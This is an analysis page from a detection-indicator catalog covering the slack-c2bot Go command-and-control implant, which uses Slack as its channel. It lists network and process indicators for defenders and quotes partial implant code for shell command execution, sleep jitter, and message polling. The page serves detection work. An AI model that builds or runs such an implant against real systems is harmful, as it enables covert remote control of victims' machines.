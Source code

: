 # slack-c2bot

## Table of Contents

- [slack-c2bot](#slack-c2bot)
  - [Table of Contents](#table-of-contents)
  - [Metadata](#metadata)
  - [Description](#description)
  - [Documentation](#documentation)
  - [Indicators](#indicators)
  - [Capabilities](#capabilities)
    - [Execute Commands via SHELL](#execute-commands-via-shell)
  - [Functionalities](#functionalities)
    - [handleSleep](#handlesleep)
    - [postMsg](#postmsg)
    - [GetChannelHistory](#getchannelhistory)

## Metadata

- Evaluator(s): [Nasreddine Bencherchali (@nas_bench)](https://twitter.com/nas_bench)
- Date: 24/01/2022
- Modified: 24/01/2022
- Source: [slack-c2bot](https://github.com/praetorian-inc/slack-c2bot)
- Implementation: Golang

## Description

> Slack C2bot is a Golang C2 that uses Slack as C&C channel

## Documentation

- [Slack C2bot - Usage](https://github.com/praetorian-inc/slack-c2bot#usage)
- [Using Slack Web Services as a C2 Channel (ATT&CK T1102)](https://www.praetorian.com/blog/using-slack-as-c2-channel-mitre-attack-web-service-t1102/)

## Indicators

| Description        | Indicator                                                                                                          | Reference                          |
|--------------------|--------------------------------------------------------------------------------------------------------------------|------------------------------------|
| HTTP Post Request   | https[:]//slack.com/api/chat.postMessage                                                                                                          | [Post Message](#postmsg) |
| HTTP Get Request   | https[:]//slack.com/api/channels.history                                                                                                          | [Get Channel History](#getchannelhistory) |
| User-Agent   | Go-http-client/1.1                                                                                                          | [Get Channel History](#getchannelhistory)<br />[Post Message](#postmsg) |
| Process Creation (Windows)   | cmd.exe /c                                                                                                          | [Execute Commands via SHELL](#execute-commands-via-shell) |
| Process Creation (Linux)   | bash -c                                                                                                          | [Execute Commands via SHELL](#execute-commands-via-shell) |

## Capabilities

### Execute Commands via SHELL

- Description: Execute commands sent from channel on the host
- Source Reference:
  - https://github.com/praetorian-inc/slack-c2bot/blob/master/implant.go#L34
- Indicators:
  - WINDOWS:
    - Call the `cmd.exe` binary with the `/C` flag

        ```go
        func runCmd(cmd string) string {
            .....
            if runtime.GOOS == "windows" {
                shell = "cmd.exe"
                shell_arg = "/C"
            }
            myCmd := exec.Command(shell, shell_arg, cmd)
            .....
        ```

  - LINUX:
    - Call the `bash` shell with the `-c` flag

        ```go
        func runCmd(cmd string) string {
            shell := "bash"
            shell_arg := "-c"
            .....
            myCmd := exec.Command(shell, shell_arg, cmd)
            .....
        ```

## Functionalities

### handleSleep

- Description: Handle sleep period of the agent
- Source Reference:
  - https://github.com/praetorian-inc/slack-c2bot/blob/master/implant.go#L25
- Indicators:
  - The default `sleep` value is `60` with applied jitter of 1 to 4. This means that the agent could sleep between a minimum value of `1 minute` and a max value of `4 minutes`

    ```go
    func handleSleep(sleep int) {
        rand.Seed(time.Now().UnixNano())
        min := 1
        max := 5
        num := rand.Intn(max - min) + min
        sleepWithJitter := sleep * num
        time.Sleep(time.Duration(sleepWithJitter) * time.Second)
    }
    ```

### postMsg

- Description: Post a message to a slack channel
- Source Reference:
  - https://github.com/praetorian-inc/slack-c2bot/blob/master/implant.go#L53
- Indicators:
  - Send `POST` request to the following URL: `https://slack.com/api/chat.postMessage`

    ```go
    ......
    func postMsg(api *slack.Client, chan_id string, msg string) {
        channelID, timestamp, err := api.PostMessage(chan_id, slack.MsgOptionText(msg, false))
    ......
    ```

  - The `slack` API package uses the `net/http` package behind the scene and since it doesn't specify any custom User-Agent, all request should be made using the default User-Agent: `Go-http-client/1.1`

### GetChannelHistory

- Description: Request a slack channel message history
- Source Reference:
  - https://github.com/praetorian-inc/slack-c2bot/blob/master/implant.go#L75
- Indicators:
  - Send `GET` request to the following URL: `https://slack.com/api/channels.history` (Note that this API has been deprecated and replaced by the `conversations.history` API)

    ```go
    historyParams := slack.HistoryParameters{Latest: "", Oldest: "0", Count: 2, Inclusive: false, Unreads:false,}
    history, err := api.GetChannelHistory(channel_id, historyParams)
    ```

  - The `slack` API package uses the `net/http` package behind the scene and since it doesn't specify any custom User-Agent, all request should be made using the default User-Agent: `Go-http-client/1.1`
